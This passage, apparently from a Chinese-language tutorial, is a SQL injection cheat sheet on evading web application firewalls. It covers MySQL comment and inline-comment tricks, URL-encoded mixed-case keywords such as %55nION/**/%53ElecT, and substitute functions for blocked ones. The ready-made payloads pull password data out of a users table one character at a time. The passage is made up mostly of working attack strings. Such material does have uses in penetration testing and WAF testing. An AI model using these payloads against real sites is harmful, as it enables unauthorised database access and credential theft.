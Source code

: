 ```
//, -- , /**/, #, --+,--  -, ;--a 

```

#### 1.普通注释

```
z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4
'union%a0select pass from users# 

```

/**/在构造的查询语句中插入注释规避对空格的依赖或关键字识别#、--+用于终结语句的查询

#### 2.内联注释

相比普通注释内联注释用的更多/_!content_/只有MySQL会正常识别content的内容其他 

```
index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3 
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4… 

```

两个示例中前者使用内联注释后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分要做到这一点后面讨论的特殊符号也能实现当然前提是包括/、*在内的这些字符能正常使用。

### e)等价函数与命令

有些函数或命令因其关键字被检测出来而无法使用但是在很多情况下可以使用与之等价或类似的代码替代其使用

#### 1.函数或变量

```
hex()、bin() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()

```

举例substring()和substr()无法使用时

```
?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　 

```

或者

```
substr((select 'password'),1,1) = 0x70 
strcmp(left('password',1), 0x69) = 1 
strcmp(left('password',1), 0x70) = 0 
strcmp(left('password',1), 0x71) = -1 

```
